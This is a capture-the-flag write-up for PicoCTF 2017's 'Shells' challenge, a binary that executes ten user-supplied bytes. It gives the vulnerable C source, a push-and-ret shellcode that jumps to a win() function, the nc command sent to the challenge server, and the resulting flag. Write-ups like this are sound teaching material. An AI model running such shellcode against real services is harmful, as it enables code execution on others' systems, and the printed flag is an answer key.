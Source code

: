 # PicoCTF_2017: Shells

**Category:** Binary
**Points:** 70
**Description:**

>How much can a couple bytes do? Use [shells](shells) [Source](shells.c). Connect on shell2017.picoctf.com:63545.

**Hint:**

>Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag

## Write-up

1.  It's just little tricky one. But if you know basic of shellcode's then it might be easy for you. This time again we got two files
	```
	$ls
	shells shells.c
	```   
	So now lets try to HexDump the  `shells`  binary.
    
      ```
    shells:     file format elf32-i386
     Disassembly of section .init:
     08048378 <_init>:
      8048378:	53                   	push   %ebx
      8048379:	83 ec 08             	sub    $0x8,%esp
      804837c:	e8 ef 00 00 00       	call   8048470 <__x86.get_pc_thunk.bx>
      8048381:	81 c3 8b 16 00 00    	add    $0x168b,%ebx
      8048387:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
      804838d:	85 c0                	test   %eax,%eax
      804838f:	74 05                	je     8048396 <_init+0x1e>
      8048391:	e8 6a 00 00 00       	call   8048400 <__gmon_start__@plt>
      8048396:	83 c4 08             	add    $0x8,%esp
      8048399:	5b                   	pop    %ebx
      804839a:	c3                   	ret    
     
     Disassembly of section .plt:
     
     080483a0 <read@plt-0x10>:
      80483a0:	ff 35 10 9a 04 08    	pushl  0x8049a10
      80483a6:	ff 25 14 9a 04 08    	jmp    *0x8049a14
      80483ac:	00 00                	add    %al,(%eax)
     	...
     
     080483b0 <read@plt>:
      80483b0:	ff 25 18 9a 04 08    	jmp    *0x8049a18
      80483b6:	68 00 00 00 00       	push   $0x0
      80483bb:	e9 e0 ff ff ff       	jmp    80483a0 <_init+0x28>
     
     080483c0 <printf@plt>:
      80483c0:	ff 25 1c 9a 04 08    	jmp    *0x8049a1c
      80483c6:	68 08 00 00 00       	push   $0x8
      80483cb:	e9 d0 ff ff ff       	jmp    80483a0 <_init+0x28>
     --More--
    ```
    
So it's x86 binary.

Now lets take a look on  `shells.c`  file.
    
	```
     #include <stdio.h>
     #include <stdlib.h>
     #include <unistd.h>
     #include <sys/mman.h>
     
     #define AMOUNT_OF_STUFF 10
     
     //TODO: Ask IT why this is here
     void win(){
         system("/bin/cat ./flag.txt");    
     }
     
     
     void vuln(){
         char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
         if(stuff == MAP_FAILED){
             printf("Failed to get space. Please talk to admin\n");
             exit(0);
         }
         printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
         fflush(stdout);
         int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
         if(len == 0){
             printf("You didn't give me anything :(");
             exit(0);
         }
         void (*func)() = (void (*)())stuff;
         func();      
     }
     
     int main(int argc, char*argv[]){
         printf("My mother told me to never accept things from strangers\n");
         printf("How bad could running a couple bytes be though?\n");
         fflush(stdout);
         vuln();
         return 0;
     }
	```
Just see their iss one  `win()`  function. Lets take a look on win() function in our HexDump. We can short out output using  `grep`  command.
    
    objdump -d shells | grep win
    08048540 <win>:
    
    We got the address in Hex we used to write it in this way  `0x08048540`.
    
    Now we can use  [radare2](https://github.com/radare/radare2)  to generate our payload. Actually we need  `push+ret`  in order to make our payload.
    
    $rasm2 -C "push 0x08048540"
    "\x68\x40\x85\x04\x08"
    
    $rasm2 -C "ret"
    "\xc3"
    

Here  `-C`  will give output in c format.Now combine the output of push+ret:`\x68\x40\x85\x04\x08\xc3`

Now print this shellcode in one file name:  `spirit_shells`.

 python -c 'print "\x68\x40\x85\x04\x08\xc3"' > spirit_shells

now just cat it out with the : shell2017.picoctf.com:17533

$cat spirit_shells - | nc shell2017.picoctf.com 17533
 My mother told me to never accept things from strangers
 How bad could running a couple bytes be though?
 Give me 10 bytes:
 4350d27b024f8597f10b98f164f0fc43

So, i think we got the flag  `4350d27b024f8597f10b98f164f0fc43`.

Hope you liked it
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyODY1MzAyOTQsLTEyMzQ3MDQyODhdfQ
==
-->